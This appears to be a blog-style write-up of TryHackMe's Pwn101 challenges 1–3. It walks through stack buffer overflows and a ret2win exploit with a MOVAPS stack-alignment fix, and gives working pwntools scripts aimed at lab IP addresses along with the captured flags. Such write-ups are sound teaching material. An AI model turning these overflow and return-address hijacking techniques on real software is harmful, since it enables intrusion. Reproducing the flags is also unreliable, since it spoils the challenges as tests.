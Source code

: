 ```yaml
---
title: "[THM] Pwn101 Writeup"
cover: >-
    https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/Blog_cover%20(3)-min.jpg
categories:
    - [TryHackMe]
    - [CTF]
tags:
    - Pwn
    - Hacking
    - CTF
abbrlink: 83b7f1b
date: 2024-07-20 13:53:43
---
```


# Challenge 1 - pwn101

First, we use IDA to decompile the binary it gave us. We can see that the program declare a 60 bytes array for char v4. And the winnning condition is to use v4 to overflow and cover the value of v5, which is 1337 initially. Since it didn't ask us to make v5 to a specific value, we can just make sure it not equal to 1337.

![IDA Decompiled Code](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240720141210657.png)

To do that, I use a Python script to do it.

```python
from pwn import *

r = remote("10.10.153.228", 9001)

r.recvuntil("Type the required ingredients to make briyani:")
r.sendline("A"*61)
r.interactive()
```

![Flag](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240720141712693.png)

```
THM{7h4t's_4n_3zy_oveRflowwwww}
```

# Challenge 2 - pwn102

First step, IDA decompile the binary.

![IDA Decompiled Code](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240720144645154.png)

According to the code, we can know that the char v4 is a 104 bytes array, and the winning condition is to let v5 equals to `0xC0FF330000C0D3`. So we can simply overflow the v4 to cover v5. The exploit is as follow.

```python
from pwn import *

payload = b"A" * 104 + p64(0xC0FF330000C0D3)


r = remote("10.10.153.228", 9002)
r.recvuntil("Am I right?")
r.sendline(payload)
```

By running this script, we can get the shell to cat the flag out.

![Flag](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240720144940194.png)

```
THM{y3s_1_n33D_C0ff33_to_C0d3_<3}
```

# Challenge 3 - pwn103

First, I use `checksec` to check the binary protection.

```bash
┌──(kali㉿kali)-[~/CTF/THM/pwn103]
└─$ pwn checksec pwn 
[*] '/home/kali/CTF/THM/pwn103/pwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Next, I use IDA to decompile the binary so that I can check where is the vulnerability easier. If you check the decompiled code throughly, you will find out the vuln is in the `general()` function, which is the 3rd choice in the menu (You can also find the vuln if you run the binary and test each choice on the menu). The code of the `general()` function is as follows.

```c
int general()
{
  const char **v0; // rdx
  char s1[32]; // [rsp+0h] [rbp-20h] BYREF

  puts(asc_4023AA);
  puts(aJopraveenHello);
  puts(aJopraveenHopeY);
  puts(aJopraveenYouFo);
  printf("------[pwner]: ");
  __isoc99_scanf("%s", s1);
  if ( strcmp(s1, "yes") )
    return puts(aTryHarder);
  puts(aJopraveenGg);
  return main((int)aJopraveenGg, (const char **)"yes", v0);
}
```

We can notice that the vuln is at the `scanf()`, which allows us to cover the value of `s1`. Furthermore, I found a suspicious function in gdb.

![GDB](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240725152515328.png)

The `admins_only()` function looks interesting. After checking the decompiled code in IDA, I found that it turns out to be dangerous.

```c
int admins_only()
{
  puts(asc_403267);
  puts(aWelcomeAdmin);
  return system("/bin/sh");
}
```

It open the shell for us! The thing is, how can we access this function? Until now, we can probably know that this is a ret2win problem. We need to cover the return address to gain access to the dangerous function. So  I use  `cyclic 100` to create the pattern to know the offset of the padding.

![Find the offset by cyclic](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240725153412668.png)

Then by using the `cyclic -l faaaaaaa` to look up the offset value, we get the offset is 40.

```bash
pwndbg> cyclic -l faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

Next step is to find the address of `admins_only()`. Since the binary has no PIE, the address will be always fixed. To get the address, we can simply type in `print &admins_only` in gdb.

```bash
pwndbg> print &admins_only 
$1 = (<text variable, no debug info> *) 0x401554 <admins_only>
```

Now, we know that the address of `admins_only()` is `0x401554`, so we can start writing the exploit!

```python
from pwn import *

offset = 40
admin_only_address = 0x401554
padding = b"A" * offset

payload = padding + p64(admin_only_address)

p = remote("10.10.194.195", 9003)
p.sendline(b"3")
p.sendline(payload)
p.interactive()
```

But when we execute the script, it won't give us the shell. After watching this video, I understand that there's a MOVAPS issue.

<div style="position: relative; width: 100%; height: 0; padding-bottom: 56.25%;">
    <iframe style="position: absolute; top: 0; left: 0; width: 100%; height: 100%;" src="https://www.youtube.com/embed/-VUtXwDm5yQ" frameborder="0" allowfullscreen></iframe>
</div>

So how do we solve the MOVAPS issue? [This articel](https://ropemporium.com/guide.html) tell us the answer.

> **The MOVAPS issue**
> If you're segfaulting on a `movaps` instruction in `buffered_vfprintf()` or `do_system()` in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as `printf()` or `system()`. Some versions of GLIBC uses `movaps` instructions to move data onto the stack in certain functions. The 64 bit calling convention requires the stack to be 16-byte aligned before a `call` instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. `movaps` triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra `ret` before returning into a function or return further into a function to skip a `push` instruction.

Here I use the first method, which is add a ret gadget in my ROP (*Return*-Oriented Programming) chain. To find the ret gadget, we can type `layout asm` in gdb.

![ret gadget](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240725162429324.png)

Now we can write the exploit with this solution to the MOVAPS issue.

```python
from pwn import *

offset = 40
admin_only_address = 0x401554
padding = b"A" * offset
ret_gadget = 0x4016E0  # Solve the MOVAPS issue

payload = padding + p64(ret_gadget) + p64(admin_only_address)

p = remote("10.10.194.195", 9003)
p.sendline(b"3")
p.sendline(payload)
p.interactive()
```

By running the script, we can get the shell and cat out the flag.txt!

![Pwned!](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240725163326781.png)

```
THM{w3lC0m3_4Dm1N}
```

